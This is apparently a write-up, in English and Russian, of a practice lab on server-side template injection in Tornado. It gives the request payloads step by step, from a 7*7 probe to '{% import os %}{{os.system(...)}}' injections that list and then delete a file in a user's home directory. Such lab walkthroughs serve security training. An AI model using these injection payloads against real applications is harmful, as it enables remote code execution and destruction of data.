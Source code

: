 # Basic server-side template injection (code context)
PRACTITIONER

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

## Решение
При изменении значения "Preferred name" на сервер отправляется запрос со следующими параметрами:

`blog-post-author-display=user.nickname&csrf=K1WPqSseoe7wpE5pQPvme4SxA1WYvfMn`

Судя по строке "user.nickname" в качестве значения параметра `blog-post-author-display` можно предположить, что это значение подставляется в шаблон. Попробую передать туда выражение 7*7:

`blog-post-author-display=7*7&csrf=K1WPqSseoe7wpE5pQPvme4SxA1WYvfMn`

В результате в отправленных комментариях имя пользователя меняется на 49:
```
49 | 07 April 2024

test
```
Попробую выйти из контекста, закрыв двойные фигурные скобки и передав произвольную строку после:

`blog-post-author-display=user.nickname}}hello&csrf=K1WPqSseoe7wpE5pQPvme4SxA1WYvfMn`
```
H0td0ghello}} | 07 April 2024

test
```
Сработало.

Попробую импортировать модуль `os`, чтобы вызвать функцию `os.system` для выполнения произвольной команды:

`blog-post-author-display=user.nickname}}{% import os %}{{os.system('ls /home/carlos')}}{{user.nickname&csrf=K1WPqSseoe7wpE5pQPvme4SxA1WYvfMn`

Перезагрузка страницы выводить возле комментария имя файла: `morale.txt`. Передам в качестве никнейма вызов команды на удаление этого файла:

`blog-post-author-display=user.nickname}}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}{{user.nickname&csrf=K1WPqSseoe7wpE5pQPvme4SxA1WYvfMn`

Перезагружаю страницу.Задание выполнено.

